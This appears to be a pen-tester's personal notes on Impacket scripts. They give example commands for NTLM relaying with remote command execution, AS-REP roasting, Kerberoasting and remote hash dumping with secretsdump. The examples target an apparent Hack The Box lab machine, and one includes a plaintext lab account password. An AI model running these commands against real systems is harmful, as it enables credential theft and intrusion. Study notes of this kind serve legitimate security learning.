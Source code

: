 
# Python Impacket
Init.

Python [impacket](https://github.com/fortra/impacket/tree/master) is an open-source collection of scripts designed to interact with common [networking](/networking/OSI/network-layer.md) protocols. Many of the scripts can be used in pen-testing, especially against Windows targets.
## Common Scripts:
(I'm keeping a list here for my own use/ reference)
### [`smbrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/smbrelayx.py)
### [`ntlmrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
`ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'`
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
- `-i`: interactive (will give you a shell)
### [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
Get's TGTs for users in an [active-directory](../../../hidden/HTB-notes/active-directory.md) environment who have *[kerberos](../../../networking/protocols/kerberos.md) pre-authentication turned off.* This is useful to know because having pre-auth turned off means we can ask for their TGTs without supplying a password. 

Once you have a TGT you can crack it with something like [john](../cracking/john.md).
#### Example
```bash
python3 GetNPUsers.py 
```
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
`impacket-GetUserSPNs -usersfile [users.lst](https://users.lst) -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass`
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
Will attempt to dump hashes from a remote machine *without executing an agent there.*
```
┌──(hakcypuppy㉿kali)-[~]
└─$ secretsdump.py 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
````
- The domain, user, password, and IP should be surrounded in quotes